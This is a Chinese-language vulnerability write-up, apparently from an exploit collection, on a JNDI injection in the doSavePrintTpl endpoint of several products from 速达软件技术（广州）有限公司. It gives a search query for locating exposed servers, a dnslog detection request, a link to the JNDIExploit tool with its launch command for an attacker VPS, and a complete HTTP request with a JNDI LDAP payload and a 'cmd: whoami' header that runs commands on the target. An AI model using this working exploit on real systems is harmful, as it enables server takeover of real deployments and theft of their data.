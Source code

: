 # 速达软件技术（广州）有限公司多款产品doSavePrintTpl存在JNID注入漏洞

# 一、漏洞简介
速达软件技术（广州）有限公司多款产品doSavePrintTpl存在JNID注入漏洞,攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 速达软件技术（广州）有限公司多款产品

# 三、资产测绘
+ hunter`web.body="速达软件技术（广州）有限公司"`
+ 特征

![1699201284929-aa4ce68c-746e-4b42-b2a6-5ee57011daf5.png](./img/QAbLP8DmRYya9Ntj/1699201284929-aa4ce68c-746e-4b42-b2a6-5ee57011daf5-904597.png)

![1699201312048-19df152b-1307-4860-87ac-d74fe2d646ae.png](./img/QAbLP8DmRYya9Ntj/1699201312048-19df152b-1307-4860-87ac-d74fe2d646ae-167294.png)

# 四、漏洞复现
1. 获取dnslog

```plain
dffd7g.dnslog.cn
```

![1705076759218-f2ad57b9-38b3-4bfb-8f69-79043a410b56.png](./img/QAbLP8DmRYya9Ntj/1705076759218-f2ad57b9-38b3-4bfb-8f69-79043a410b56-744974.png)

2. 检测是否存在漏洞

```plain
GET /common/print/print!doSavePrintTpl.action?report=${jndi:ldap://dffd7g.dnslog.cn}&&rptid=1&employId=1&accsetName=1&modId=1 HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=95B4E05547D0C692CF0D0DD69AC5241B
Connection: close
```

![1705076798010-03a14e61-09f8-48d9-9296-d38fd1468d27.png](./img/QAbLP8DmRYya9Ntj/1705076798010-03a14e61-09f8-48d9-9296-d38fd1468d27-576024.png)

![1705076811911-81f56a2d-56c6-419b-947c-0451210e8e69.png](./img/QAbLP8DmRYya9Ntj/1705076811911-81f56a2d-56c6-419b-947c-0451210e8e69-461086.png)

漏洞利用

[JNDIExploit-1.4-SNAPSHOT.jar](https://www.yuque.com/attachments/yuque/0/2024/jar/1622799/1709222146317-10daccfd-9800-4fa7-899a-ce904aab6f1d.jar)

将`JNDIExploit-1.4-SNAPSHOT.jar`上传到`vps`

```plain
java -jar JNDIExploit-1.4-SNAPSHOT.jar -i vpsip
```

![1705075364344-caf730e8-f910-4617-87ae-297aec05dbeb.png](./img/QAbLP8DmRYya9Ntj/1705075364344-caf730e8-f910-4617-87ae-297aec05dbeb-838512.png)

```plain
GET /common/print/print!doSavePrintTpl.action?report=${jndi:ldap://vpsip:1389/Basic/TomcatEcho}&&rptid=1&employId=1&accsetName=1&modId=1 HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
cmd: whoami
Cookie: JSESSIONID=95B4E05547D0C692CF0D0DD69AC5241B
Connection: close
```

![1705076893410-959d7fbf-d434-483d-b195-e12231942b95.png](./img/QAbLP8DmRYya9Ntj/1705076893410-959d7fbf-d434-483d-b195-e12231942b95-014530.png)



> 更新: 2024-02-29 23:55:46  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/naif5is5o46eq9h6>